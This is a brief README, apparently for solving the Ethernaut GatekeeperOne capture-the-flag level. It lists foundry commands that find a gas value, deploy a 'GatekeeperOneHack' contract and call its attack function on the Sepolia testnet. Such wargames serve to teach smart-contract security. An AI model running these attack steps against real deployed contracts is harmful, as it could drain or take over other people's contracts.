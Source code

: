 # GatekeeperOne Solution

Comment out line 16 in `GatekeeperOneHack.t.sol`, uncomment line 17 and input the `instanceAddress`. Run to retrieve the `_gas`:

```bash
forge test --mt test_gateTwo --rpc-url $SEPOLIA_RPC_URL -vvv
# _gas 256
```

Deploy:

```bash
forge create GatekeeperOneHack --broadcast --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args <instanceAddress>
```

Run:

```bash
cast send <gatekeeperOneHackAddress> "attack(uint256)" <_gas> --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
# cast send <gatekeeperOneHackAddress> "attack(uint256)" 256 --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
